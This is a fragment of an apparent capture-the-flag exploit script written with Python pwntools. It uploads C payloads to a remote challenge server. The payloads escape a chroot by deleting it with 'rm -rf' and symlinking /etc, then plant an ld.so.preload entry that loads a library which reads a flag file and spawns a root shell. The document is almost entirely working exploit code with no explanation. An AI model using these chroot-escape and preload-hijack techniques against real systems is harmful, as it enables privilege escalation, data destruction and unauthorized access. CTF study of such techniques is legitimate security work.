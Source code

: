 ```python
        }

}

exp.c
int main(){
        system("rm -rf ../chroot");
        system("ln -s /etc ../chroot");
        puts("Done");
        puts("3.");
        sleep(1);

}

sandbox.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
        write(666,"\x01PWN",4);
        sleep(1);
        rename("exp","tester");
}

libx.c
int getopt_long(){
        printf("My id : %d\n",getuid());
        int fd = open("/flag2",0);
        char buf[0x100];
        write(1,buf,read(fd,buf,0x100));
        unlink("/etc/libx.so");
        system("sh");
        return 0;
}

ld.so.preload
libx.so
'''


r = remote("trustedloading.hackable.software", 1337)
r.recvuntil(": ")
s = process(r.recvline()[:-1].split())
s.recvuntil(": ")
r.send(s.recvall())
s.close()

#r = process('./start.sh')

data = open("init").read()
r.sendlineafter("?",str(len(data)))
r.sendafter("?",data)
Upload("tester","tester")
Upload("tester.sig","tester.sig")
Upload("exp","exp")
context.arch = "amd64"
Do_elf("sandbox")
r.recvuntil("Done");
Upload("ld.so.preload","ld.so.preload")
Upload("libx.so","libx.so")
r.sendlineafter("3.","3")
r.interactive()
```